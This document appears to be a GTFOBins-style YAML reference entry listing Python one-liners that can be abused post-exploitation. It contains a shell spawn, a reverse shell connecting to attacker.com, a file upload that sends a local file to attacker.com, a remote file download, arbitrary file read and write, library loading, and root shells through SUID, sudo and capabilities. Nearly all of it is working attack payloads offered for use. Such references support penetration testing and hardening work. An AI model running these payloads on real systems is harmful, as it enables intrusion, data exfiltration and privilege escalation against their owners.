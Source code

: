 ```yaml
---
description: The payloads are compatible with both Python version 2 and 3.
functions:
  shell:
    - code: python -c 'import os; os.system("/bin/sh")'
  reverse-shell:
    - description: Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        python -c 'import sys,socket,os,pty;s=socket.socket()
        s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
        [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
        pty.spawn("/bin/sh")'
  file-upload:
    - description: Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export URL=http://attacker.com/
        export LFILE=file_to_send
        python -c 'import sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
        else: import urllib as u, urllib2 as r
        r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))'
    - description: Serve files in the local folder running an HTTP server.
      code: |
        export LPORT=8888
        python -c 'import sys; from os import environ as e
        if sys.version_info.major == 3: import http.server as s, socketserver as ss
        else: import SimpleHTTPServer as s, SocketServer as ss
        ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()'
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        python -c 'import sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r
        else: import urllib as r
        r.urlretrieve(e["URL"], e["LFILE"])'
  file-write:
    - code: python -c 'open("file_to_write","w+").write("DATA")'
  file-read:
    - code: python -c 'print(open("file_to_read").read())'
  library-load:
    - code: python -c 'from ctypes import cdll; cdll.LoadLibrary("lib.so")'
  suid:
    - code: ./python -c 'import os; os.setuid(0); os.system("/bin/bash")'
  sudo:
    - code: sudo python -c 'import os; os.system("/bin/sh")'
  capabilities:
    - code: ./python -c 'import os; os.setuid(0); os.system("/bin/sh")'
---
```

